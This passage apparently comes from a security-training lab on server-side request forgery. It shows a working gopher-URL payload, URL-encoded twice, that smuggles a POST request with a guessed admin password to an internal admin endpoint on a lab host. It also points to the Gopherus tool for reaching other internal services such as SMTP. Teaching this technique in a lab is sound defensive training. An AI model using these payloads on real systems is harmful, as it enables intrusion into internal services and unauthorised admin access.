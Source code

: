 Instead, we can use the [gopher](https://datatracker.ietf.org/doc/html/rfc1436) URL scheme to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves.

Assuming we want to try common weak passwords, such as `admin`, we can send the following POST request:

```http
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

We need to URL-encode all special characters to construct a valid gopher URL from this. In particular, spaces (`%20`) and newlines (`%0D%0A`) must be URL-encoded. Afterward, we need to prefix the data with the gopher URL scheme, the target host and port, and an underscore, resulting in the following gopher URL:

```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

Our specified bytes are sent to the target when the web application processes this URL. Since we carefully chose the bytes to represent a valid POST request, the internal web server accepts our POST request and responds accordingly. ==However, since we are sending our URL within the HTTP POST parameter `dateserver`, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it==. Otherwise, we will get a `Malformed URL` error. After URL encoding the entire gopher URL one more time, we can finally send the following request:

```http
POST /index.php HTTP/1.1
Host: 172.17.0.2
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

As we can see, the internal admin endpoint accepts our provided password, and we can access the admin dashboard:

![](Pasted%20image%2020250221100622.png)

We can use the `gopher` protocol to interact with many internal services, not just HTTP servers. Imagine a scenario where we identify, through an SSRF vulnerability, that TCP port 25 is open locally. This is the standard port for SMTP servers. We can use Gopher to interact with this internal SMTP server as well. However, constructing syntactically and semantically correct gopher URLs can take time and effort. Thus, we will utilize the tool [Gopherus](https://github.com/tarunkant/Gopherus) to generate gopher URLs for us. The following services are supported:
